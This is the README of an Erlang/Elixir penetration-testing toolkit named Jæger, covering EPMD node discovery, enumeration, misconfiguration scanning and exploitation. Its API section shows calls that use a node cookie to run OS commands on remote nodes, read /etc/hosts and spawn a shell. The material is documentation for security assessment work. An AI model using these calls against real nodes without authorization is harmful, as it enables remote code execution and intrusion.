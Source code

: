 # Jæger

> *Jæger* — Norwegian for "hunter." In Norse myth, the hunter stalks what others cannot see. In distributed systems, so must we.

Erlang/Elixir node discovery and penetration testing toolkit.

## Features

- **Discovery**: EPMD scanning and node enumeration
- **Fingerprinting**: System info and version detection
- **Vulnerability Scanning**: Security misconfiguration detection
- **Exploitation**: RCE and post-exploitation capabilities

## Build

```bash
rebar3 escriptize
```

## Quick Start

```bash
# Start a test node
erl -sname myapp -setcookie secret123

# Scan for it
./_build/default/bin/jeger -r 127.0.0.1-1

# Scan network range with custom timeout and concurrency
./_build/default/bin/jeger -r 192.168.1.1-254 -t 2000 -c 100
```

Common targets: Phoenix/Elixir apps, RabbitMQ, CouchDB, ejabberd

## API Usage

```erlang
% Start shell
rebar3 shell

% Discovery
{ok, Hosts} = jeger_discovery:discover({"192.168.1.", 1, 254}, #{timeout => 2000, verbose => true}).

% Enumeration
{ok, Info} = jeger_enum:enumerate_node("192.168.1.5", "myapp", secret).

% Vulnerability scanning
{ok, Findings} = jeger_scan:scan_node("192.168.1.5", "myapp", secret).

% Cluster scanning (multiple nodes)
{ok, Results} = jeger_cluster:scan_cluster("127.0.0.1", ["node1", "node2", "node3"], my_cookie).

% Exploitation
{ok, Result} = jeger_exploit:execute_command("192.168.1.5", "myapp", secret, "os:cmd(\"whoami\")").
{ok, Content} = jeger_exploit:read_file("192.168.1.5", "myapp", secret, "/etc/hosts").
{ok, Pid} = jeger_exploit:spawn_shell("192.168.1.5", "myapp", secret).
```

### Cluster Scanning Example

Scan multiple nodes in a clustered application:

```erlang
% Scan all nodes in a Phoenix/Elixir cluster
{ok, Results} = jeger_cluster:scan_cluster(
    "127.0.0.1",
    ["node1", "node2", "node3"],
    my_cookie,
    #{verbose => true}
).

% View formatted results
io:format("~s", [jeger_cluster:format_cluster_scan(Results)]).

% Extract specific findings
#{results := NodeResults} = Results,
[#{vulnerabilities := #{findings := Findings}} | _] = NodeResults.
```

## Testing

```bash
rebar3 eunit
```

## Warning

**For authorized security assessments only.** Unauthorized access is illegal.

## License

Apache-2.0
